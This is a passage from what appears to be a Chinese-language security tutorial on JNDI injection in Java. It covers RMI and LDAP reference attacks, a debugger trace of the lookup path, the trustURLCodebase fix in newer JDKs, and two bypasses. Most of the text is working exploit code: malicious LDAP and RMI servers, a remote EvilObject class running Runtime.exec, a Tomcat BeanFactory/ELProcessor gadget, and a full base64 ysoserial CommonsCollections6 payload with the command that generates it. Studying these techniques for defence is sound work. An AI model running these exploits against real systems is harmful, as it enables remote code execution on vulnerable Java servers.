这个是我们需要远程访问的，因此需要在其目录下开下 http 服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110433-a165a014-bbf7-1.png)

接下来写客户端

```bash
public class RMI_Client {
    public static void main(String[]args) throws Exception{
        String string = "rmi://localhost:1099/hello";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(string);
    }
}
```

我们这里将`lookup()`的参数设置为恶意 RMI 服务的地址，此时即会触发命令执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110444-a8193092-bbf7-1.png)

这个漏洞在`jdk8u121` 当中被修复， `lookup()` 方法被设置为只可以对本地进行 `lookup()` 方法的调用。

**漏洞分析**

在 lookup 处打上断点，有多个 lookup 服务，直接跟进到`RegistryContext#lookup`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110452-ac8b380a-bbf7-1.png)

在这里可以看到`var1`是我们设置的名字，`var2`是`ReferenceWrapper_Stub`类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110459-b0e8f5cc-bbf7-1.png)

跟进来到`RegistryContext#decodeObject()`方法，我们可以发现这里进行了一个判断，判断是否为`Reference`对象，是则调用`getReference`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110505-b486edba-bbf7-1.png)

这个方法其实返回的是我们前面传入的参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110516-bb36b10e-bbf7-1.png)

接下来会调用`getObjectInstance`方法，继续跟进，来到`NamingManager`下，发现`getObjectFactoryFromReference`方法，这个就是获取对象工厂的方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110521-be595922-bbf7-1.png)

跟进来到`NamingManager#getObjectFactoryFromReference`中，发现加载了我们的恶意类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110528-c21fd4dc-bbf7-1.png)

跟进`loadClass()`，可以看到这里首先是本地加载，当本地没找到时，使用`codebase`进行加载

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110537-c7b27b16-bbf7-1.png)

最终调用`newInstance`执行代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110540-c9393f38-bbf7-1.png)

### JNDI+LDAP

**什么是 LDAP**

LDAP（Lightweight Directory Access Protocol，轻型目录访问协议）是一种目录服务协议，运行在`TCP/IP堆栈`之上。LDAP 目录服务是由目录数据库和一套访问协议组成的系统，目录服务是一个特殊的数据库，用来保存描述性的、基于属性的详细信息，能进行查询、浏览和搜索，以树状结构组织数据。LDAP 目录服务基于客户端 - 服务器模型，它的功能用于对一个存在目录数据库的访问。LDAP 目录和 RMI 注册表的区别在于是前者是目录服务，并允许分配存储对象的属性。

在 LDAP 中，我们是通过目录树来访问一条记录的，目录树的结构如下

```bash
dn：一条记录的详细位置
dc：一条记录所属区域    (哪一颗树)
ou：一条记录所属组织（哪一个分支）
cn/uid：一条记录的名字/ID   (哪一个苹果名字)
...
LDAP 目录树的最顶部就是根，也就是所谓的“基准 DN"。
```

假设你需要一个苹果的具体位置，该如何获取呢

```bash
1、首先说明是哪一棵树 (dc)
2、然后是从树根到那个苹果所经过的所有分叉 (ou)
3、得到这个苹果的名字 (cn)
```

我们也可以用 LDAP 服务来存储 JAVA 对象，如果我们能够控制 JNDI 去访问 LDAP 中存储的恶意对象，此时就可能会达到攻击的目的。

LDAP 能够存储的 Java 对象有以下四种

```bash
1、Java 序列化
2、JNDI 的 References
3、Marshalled 对象
4、Remote Location
```

**攻击 Demo**

首先安装 LDAP 依赖。

```bash
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
    <scope>test</scope>
</dependency>
```

服务端代码如下

```bash
package JNDI;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";
    public static void main (String[] args) {
        String url = "http://127.0.0.1:8000/#EvilObject";
        int port = 1234;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();
        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }
    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        private URL codebase;
        /**
         * */ public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }
        /**
         * {@inheritDoc}
         * * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */ @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }
        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

`EvilObject.java`是我们部署的远程恶意类，代码如下

```bash
public class EvilObject extends UnicastRemoteObject implements ObjectFactory {
    public EvilObject() throws RemoteException {
        super();
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public String sayHello(String name) throws RemoteException {
        System.out.println("Hello World!");
        return name;
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }

}
```

开启 HTTP 服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110553-d11f4e2c-bbf7-1.png)

客户端调用

```bash
public class RMI_Client {
    public static void main(String[]args) throws Exception{
        String string = "ldap://localhost:1234/remoteObj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(string);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110603-d6e5c0ca-bbf7-1.png)

## 高版本 JDK 限制

之后的版本 Java 对 LDAP Reference 远程加载`Factory`类进行了限制。

在`JDK 11.0.1`、`8u191`、`7u201`、`6u211`之后 `com.sun.jndi.ldap.object.trustURLCodebase`属性的默认值被修改为了`false`。

相关代码如下

```bash
// 旧版本 JDK  
 /**  
 * @param className A non-null fully qualified class name.  
 * @param codebase A non-null, space-separated list of URL strings.  
 */  
 public Class<?> loadClass(String className, String codebase)  
 throws ClassNotFoundException, MalformedURLException {  

 ClassLoader parent = getContextClassLoader();  
 ClassLoader cl =  
 URLClassLoader.newInstance(getUrlArray(codebase), parent);  

 return loadClass(className, cl);  
 }  


// 新版本 JDK  
 /**  
 * @param className A non-null fully qualified class name.  
 * @param codebase A non-null, space-separated list of URL strings.  
 */  
 public Class<?> loadClass(String className, String codebase)  
 throws ClassNotFoundException, MalformedURLException {  
 if ("true".equalsIgnoreCase(trustURLCodebase)) {  
 ClassLoader parent = getContextClassLoader();  
 ClassLoader cl =  
 URLClassLoader.newInstance(getUrlArray(codebase), parent);  

 return loadClass(className, cl);  
 } else {  
 return null;  
 }  
 }
```

这里判断了`trustURLCodebase 的值是否为 true`，也正因此，我们无法再进行`URLClassLoader 的攻击`

## 绕过高版本 JDK

### 使用本地的 Reference Factory 类

简单的说，就是当服务端本地存在恶意`Factory`类可被作为`Reference Factory` 利用，这个类利用也是有一定条件的，具体如下：

```bash
该恶意 Factory 类必须实现 javax.naming.spi.ObjectFactory 接口，实现该接口的 getObjectInstance() 方法。

因为在javax.naming.spi.NamingManager#getObjectFactoryFromReference最后的return语句对Factory类的实例对象进行了类型转换，并且该工厂类至少存在一个getObjectInstance()方法。
```

`org.apache.naming.factory.BeanFactory` 正好满足其条件，在 `getObjectInstance()`中会通过反射的方式实例化`Reference`所指向的任意`Bean Class`，并且会调用`setter`方法为所有的属性赋值。而该`Bean Class`的类名、属性、属性值，全都来自于 Reference 对象，均是攻击者可控的。

**攻击 Demo**

添加依赖

```bash
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>
<dependency>
    <groupId>org.lucee</groupId>
    <artifactId>javax.el</artifactId>
    <version>3.0.0</version>
</dependency>
```

恶意服务端代码如下

```bash
public class RMI_Server_ByPass {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        // 实例化 Reference，指定目标类为 javax.el.ELProcessor，工厂类为 org.apache.naming.factory.BeanFactory
        ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", (String)null, "", "", true, "org.apache.naming.factory.BeanFactory", (String)null);
        // 强制将'faster'属性的 setter 从'setFaster'变为'eval'
        resourceRef.add(new StringRefAddr("forceString", "faster=eval"));
        // 利用表达式执行命令
        resourceRef.add(new StringRefAddr("faster", "Runtime.getRuntime().exec(\"calc\")"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(resourceRef);
        registry.bind("Object", referenceWrapper);
        System.out.println("Registry 运行中......");

    }
}
```

客户端代码如下

```bash
public class RMI_Client {
    public static void main(String[]args) throws Exception{
        String string = "rmi://localhost:1099/Object";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(string);
    }
}
```

而后即可实现命令执行

### LDAP 反序列化攻击

导入依赖如下

```bash
<dependency>  
 <groupId>commons-collections</groupId>  
 <artifactId>commons-collections</artifactId>  
 <version>3.2.1</version>  
</dependency>
```

相较于原始的 LDAP 服务器，我们只需要将被存储的类的属性值`javaSerializeData`更改为`序列化payload`即可，序列化 Payload 可用 yso 生成

```bash
java -jar ysoserial-master.jar CommonsCollections6 'calc' | base64
```

得到

```bash
rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsAAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAAAnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAF0AARjYWxjdAAEZXhlY3VxAH4AGwAAAAFxAH4AIHNxAH4AD3NyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAABc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/QAAAAAAAAHcIAAAAEAAAAAB4eHg=
```

服务端代码如下

```bash
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.URL;
import java.util.Base64;

public class LDAP_Server_ByPass_Serialize {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1/#EXP"};
        int port = 9999;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws Exception {
            e.addAttribute("javaClassName", "foo");
            //getObject获取Gadget
            e.addAttribute("javaSerializedData", Base64.getDecoder().decode(
"rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsAAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAAAnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAF0AARjYWxjdAAEZXhlY3VxAH4AGwAAAAFxAH4AIHNxAH4AD3NyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAABc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/QAAAAAAAAHcIAAAAEAAAAAB4eHg="
            ));
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

客户端代码如下

```bash
public class JNDIGadgetClient {  
    public static void main(String[] args) throws Exception {  
        // lookup 参数注入触发  
 Context context = new InitialContext();  
 context.lookup("ldap://localhost:9999/EXP");
```

# 参考

[https://tttang.com/archive/1611/#toc\_jndi-references](https://tttang.com/archive/1611/#toc_jndi-references)

[https://goodapple.top/archives/696](https://goodapple.top/archives/696)

[https://drun1baby.top/2022/07/28/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BJNDI%E5%AD%A6%E4%B9%A0/#%E5%BC%95%E7%94%A8%E7%9A%84%E6%BC%8F%E6%B4%9E%EF%BC%8CNormal-Jndi](https://drun1baby.top/2022/07/28/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BJNDI%E5%AD%A6%E4%B9%A0/#%E5%BC%95%E7%94%A8%E7%9A%84%E6%BC%8F%E6%B4%9E%EF%BC%8CNormal-Jndi)

[https://www.bilibili.com/video/BV1P54y1Z7Lf/?spm\_id\_from=333.788&vd\_source=414113f33a1cd681c43e79462250b4d0](https://www.bilibili.com/video/BV1P54y1Z7Lf/?spm_id_from=333.788&vd_source=414113f33a1cd681c43e79462250b4d0)

[https://johnfrod.top/%e5%ae%89%e5%85%a8/jndi%e6%b3%a8%e5%85%a5%e6%bc%8f%e6%b4%9e/](https://johnfrod.top/%e5%ae%89%e5%85%a8/jndi%e6%b3%a8%e5%85%a5%e6%bc%8f%e6%b4%9e/)
